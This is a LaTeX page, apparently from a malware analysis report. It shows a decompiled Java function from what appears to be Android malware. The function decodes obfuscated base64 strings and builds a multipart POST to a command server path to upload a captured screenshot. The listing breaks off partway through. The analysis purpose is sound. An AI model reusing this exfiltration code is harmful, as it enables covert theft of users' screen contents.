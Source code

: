 \documentclass[10pt,titlepage]{article}
\begin{document}
\newpage
\begin{lstlisting}[label=screenshotupload,caption=The function \textit{naqsl.ebxcb.exu.Cint.fddo()} sends the screenshot to a Web server.,frame=tb]
public void fddo(Context context, byte[] bArr, String str) {
        String fddo2 = fddo(context, m430int("d2Vic29ja2V0"));
        StringBuilder sb = new StringBuilder();
        sb.append(fddo2);
        this.f602fddo.getClass();
        sb.append("/o1o/a1.php");
        String sb2 = sb.toString();
        String str2 = m430int("Z2V0ZmlsZXM="); // getfiles
        String str3 = m430int("Vk5DW10="); \\ VNC[]
        String str4 = m430int("XHJcbg=="); \\ \r\n
        String str5 = m430int("LS0="); \\ --
        String str6 = m430int("KioqKio="); \\ *****
        HttpURLConnection httpURLConnection = (HttpURLConnection) new URL(sb2)
                                                                   .openConnection();
        httpURLConnection.setUseCaches(false);
        httpURLConnection.setDoOutput(true);
        httpURLConnection.setRequestMethod(m430int("UE9TVA==")); \\ POST
        httpURLConnection.setRequestProperty
                                 (m430int("Q29ubmVjdGlvbg=="), 
                                 m430int("S2VlcC1BbGl2ZQ==")); 
                                 \\ Connection, Keep-Alive
        httpURLConnection.setRequestProperty(
                                 m430int("Q2FjaGUtQ29udHJvbA=="), 
                                 m430int("bm8tY2FjaGU=")); 
                                 \\ Cache-Control, no-cache
        String str7 = m430int("Q29udGVudC1UeXBl");  \\ Content-Type
        StringBuilder sb3 = new StringBuilder();
        sb3.append(m430int("bXVsdGlwYXJ0L2Zvcm0tZGF0YTtib3VuZGFyeT0=")); 
                                 \\ multipart/form-data;boundary=
        sb3.append(str6);
        httpURLConnection.setRequestProperty(str7, sb3.toString());
        DataOutputStream dataOutputStream = new DataOutputStream(
                                                  httpURLConnection.getOutputStream());
        StringBuilder sb4 = new StringBuilder();
        sb4.append(str5);
        sb4.append(str6);
        sb4.append(str4);
        dataOutputStream.writeBytes(sb4.toString());
        StringBuilder sb5 = new StringBuilder();

\end{lstlisting}
\end{document}
